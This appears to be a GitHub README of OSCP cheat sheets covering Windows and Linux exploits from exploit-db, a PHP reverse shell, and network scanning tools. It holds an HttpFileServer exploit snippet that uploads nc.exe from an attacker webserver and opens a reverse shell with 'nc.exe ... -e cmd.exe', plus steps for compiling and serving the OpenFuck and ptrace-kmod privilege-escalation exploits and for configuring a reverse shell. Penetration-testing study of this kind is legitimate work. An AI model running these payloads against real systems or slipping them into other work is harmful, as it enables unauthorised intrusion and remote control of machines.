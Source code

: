 # cheatsheets and exploit code and scripts / OSCP
 

##Windows Exploits
<details><summary>MS08-067 Python Remote Exploit</summary>
<p>
(https://www.exploit-db.com/exploits/40279)
edit `shellcode` variable with payload and adjusts NOPS to fit it
</p>
</details>

<details><summary>HttpFileServer 2.3.x RCE</summary>
<p>
Upload nc.exe into victim machine and performs a reverse shell using nc.exe
```python
	
	#change these to your webserver for uploading nc.exe
	ip_addr = "192.168.1.20" 
	local_port = "80" 
	
	#file will be uploaded to and run from C:\Users\Public, change ip and port here to catch your reverse shell
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20192.168.1.10%20443%20-e%20cmd.exe"
```
</p>
</details>



##Linux Exploits
<details><summary>Linux Kernel 2.2-4 PrivEsc (ptrace-kmod)</summary>
<p>
(https://www.exploit-db.com/exploits/3)
Works for 2.2.x and 2.4.x kernels.
```c
// include <linux/user.h> <---remove this
// add below 
#include <sys/user.h>
#include <sys/reg.h>
```
</p>
</details>

<details><summary>Mod SSL 2.8.7 OpenSSL Exploit (openfartV2.c)</summary>
<p>
(https://www.exploit-db.com/exploits/764)
commented out `#COMMAND2` variable out to download. Can be used seperately with ptrace-kmod for PrivEsc.

Usage:
1. compile code
`gcc -o openfuck openfuckV2.c -lcrypto`
_if you encounter missing ld error while compiling at victim machine, try checking PATH and make sure it is pointing to the 'ld' file_

2. In your ptrace-kmod.c directory start webserver
`python -m SimpleHTTPServer 80`
</p>
</details>


##Other Exploits
<details><summary>PHP Reverse Shell (pentest monkey)</summary>
<p>
(http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
Works like a charm in linux php LFI situations better than `system('<reverse shell bash code>');`

1. modify code
```c
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```
2. start listener to catch reverse shell
3. upload and run script
</p>
</details>


##Tools
<details><summary>Onetwopunch - wrapper for unicorn and nmap scan</summary>
<p>
(https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh) 
Scan for port using nicornscan (very fast) and chain it with nmap vuln nse script scan

1. ping sweep for online hosts into list
`nmap -v -sn 10.11.1-254 -oG all-hosts.txt`
`grep Up all-hosts.txt > online.hosts.txt`

2. download onetwopunch script
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
 
3. run script with nmap -sV option
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`
 
4. Once complete, navigate to output folder "ndir". Use command to formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
`wget https://raw.githubusercontent.com/superkojiman/onetwopunch/master/onetwopunch.sh`
`./scripts/onetwopunch.sh -t online-hosts.txt -p all -i tap0 -n -sV`

5. Navigate to output folder "ndir" and formats all .xml output to html
`for x in $(ls *.xml); do filename=$(echo $x | sed 's/xml/html/') && xsltproc $x -o $filename; done`
</p>
</details>

<details><summary>Droopescan - drupal scanner</summary>
<p>
(https://github.com/droope/droopescan)
```
git clone https://github.com/droope/droopescan.git
cd droopescan
pip install -r requirements.txt
droopescan scan drupal -u http://10.11.1.49
```
</p>
</details>



